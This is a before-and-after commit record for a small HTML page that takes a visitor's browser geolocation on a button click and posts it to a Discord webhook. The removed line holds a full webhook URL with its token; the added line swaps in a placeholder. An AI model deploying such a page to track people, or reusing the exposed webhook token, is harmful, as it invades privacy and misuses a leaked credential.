

Before and after one commit to inercia22/armata, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update webhook URL in location script

```diff
--- a/index.html
+++ b/index.html
@@ -1,8 +1,27 @@
+<!DOCTYPE html>
+<html>
+<body style="font-family:Arial; text-align:center; padding-top:50px;">
+
+<h1>Location Page</h1>
+<p>Click the button below to send your location</p>
+
+<button onclick="getLocation()" style="
+  padding: 15px 25px;
+  font-size: 18px;
+  border-radius: 10px;
+  background: black;
+  color: white;
+  border: none;
+  cursor: pointer;
+">
+📍 Find My Location
+</button>
+
 <script>
 function getLocation() {
   navigator.geolocation.getCurrentPosition(function(position) {
 
-    fetch("https://discord.com/api/webhooks/1489231047798423684/bQCkm-7dZ4GKn5B-FTXhp2vmzwapkTXWk6rJZfqNMg0yvt9OkfmHkkjr1L0EihY8eAIh", {
+    fetch("YOUR_DISCORD_WEBHOOK", {
       method: "POST",
       headers: {
         "Content-Type": "application/json"
@@ -24,3 +43,6 @@ function getLocation() {
   });
 }
 </script>
+
+</body>
+</html>
```
